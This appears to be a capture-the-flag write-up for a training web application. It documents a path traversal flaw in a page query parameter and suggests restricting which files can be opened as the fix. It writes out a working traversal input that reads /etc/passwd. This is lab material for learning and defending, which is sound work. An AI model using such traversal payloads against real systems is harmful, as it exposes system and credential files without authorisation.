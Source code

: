 # Unrestricted Path Traversal

## Vulnerability

The page content change based on the `?page=` query parameter.

Going up into the file system then reading a system file display the flag.

We get the flag by visiting the URL: [`?page=../../../../../../../etc/passwd`](http://darkly/index.php?page=../../../../../../../etc/passwd)
```html
Congratulaton!! The flag is : ...
```

## Possible Fix

- Restrict the files that can be opened.
